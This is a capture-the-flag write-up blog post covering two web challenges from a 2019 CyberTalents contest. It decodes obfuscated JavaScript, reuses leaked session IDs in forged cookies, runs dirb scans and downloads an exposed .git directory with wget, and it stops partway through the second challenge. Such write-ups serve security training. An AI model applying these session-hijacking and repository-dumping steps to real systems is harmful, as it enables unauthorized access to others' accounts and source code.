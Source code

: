 ```yaml
---
date: 2019-11-30 23:48:05
layout: post
title: CyberTalents - Ainshams University CTF2019
subtitle: "Created by: Mrx-Exploit"
description: >-
  It was very easy Web Challenge.
image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
optimized_image: >-
  /assets/img/WebCTF/ainshams/banner.jpg
category: blog
tags:
  - websec
  - cybertalents
  - rce
author: Hazem Hesham
paginate: true
---
```


I will solve the web Challenges in this post so there are two challenge select anyone you need and enjoy  

1. [Dark Session](#dark-session)
2. [Broken Doors](#broken-doors)  

# Dark Session

As the usual I will run dirb  but in i found nothing bad luck xD  

So let's see the the source code  

Yes i found brainFuck encryption  

![image](/assets/img/WebCTF/ainshams/1.png)

So let's decode it [dcode.fr](https://www.dcode.fr/brainfuck-language)  

Awsomme we got something looks useful  
```javascript
if(document.cookie !== ''){        $.post('getuserinfo.php',{          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1](        },function(data){2          cu = data;<        });F      }
```
There are `getuserinfo.php` and it's takes POST data `PHPSESSID= ???`  

So let's see what's inside it  

![image](/assets/img/WebCTF/ainshams/2.png)  

Ahaa it's API Hmmm  

So we need value for PHPSESSID to get the userinfo  

Let's back to `/Dark-Sessions/` and see again on it  

Damn I got this message   
```
Session not found in our secret place , {http://tiny.cc/u16dfz}
```

It's pastbin and there are Secret Sessions
```
#Secret_Sessions#
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```
So let put it in Cookie and see what will happen  

```bash
GET /Dark-Sessions/ HTTP/1.1
Host: 54.93.122.202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=11l3ztdo96ritoitf9fr092ru3
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
Shit I got anther message 
```
UserInfo Cookie don't have the username , you need to go deeper... 
```
I think i need to get the username and put it in Cookie too in UserInfo   

So let's try to send the session in the API and let's see what will happen  

![image](/assets/img/WebCTF/ainshams/3.png)

Awsome i got the username it's so easy  

let's put it in the Cookie  

![image](/assets/img/WebCTF/ainshams/4.png)

Woow it's so easy we got the flag
```
Secret_session_gained_succefully
```
# Broken doors

As the usual I will run dirb  

```Bash
root@kali:~/Desktop# dirb http://18.197.166.159/Broken-doors/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Nov 30 12:15:24 2019
URL_BASE: http://18.197.166.159/Broken-doors/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4614

---- Scanning URL: http://18.197.166.159/Broken-doors/ ----
+ http://18.197.166.159/Broken-doors/.git/HEAD (CODE:200|SIZE:23)
^C> Testing: http://18.197.166.159/Broken-doors/_tempalbums
```
Yes I got .git so lets download it

```Bash
root@kali:~/Desktop/cyber# rm .git
root@kali:~/Desktop/cyber# mkdir git
root@kali:~/Desktop/cyber# cd git
root@kali:~/Desktop/cyber/git# wget -r http://18.197.166.159/Broken-doors/.git/
--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/
Connecting to 18.197.166.159:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/.git/index.html’

18.197.166.159/Brok     [ <=>                ]   1.39K  --.-KB/s    in 0s

2019-11-30 10:56:36 (71.8 MB/s) - ‘18.197.166.159/Broken-doors/.git/index.html’ saved [1420]

Loading robots.txt; please ignore errors.
--2019-11-30 10:56:36--  http://18.197.166.159/robots.txt
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 404 Not Found
2019-11-30 10:56:36 ERROR 404: Not Found.

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/
Reusing existing connection to 18.197.166.159:80.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘18.197.166.159/Broken-doors/index.html’

18.197.166.159/Brok     [ <=>                ]   2.47K  --.-KB/s    in 0s

2019-11-30 10:56:36 (5.19 MB/s) - ‘18.197.166.159/Broken-doors/index.html’ saved [2531]

--2019-11-30 10:56:36--  http://18.197.166.159/Broken-doors/.git/branches/
```
```Bash
root@kali:~/Desktop/cyber/git/18.197.166.159# cd Broken-doors/
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls
index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# ls -la
total 16
drwxr-xr-x 3 root root 4096 Nov 30 10:56 .
drwxr-xr-x 3 root root 4096 Nov 30 10:56 ..
drwxr-xr-x 8 root root 4096 Nov 30 10:56 .git
-rw-r--r-- 1 root root 2531 Nov 30 10:56 index.html
root@kali:~/Desktop/cyber/git/18.197.166.159/Broken-doors# cd .git
root@kali
```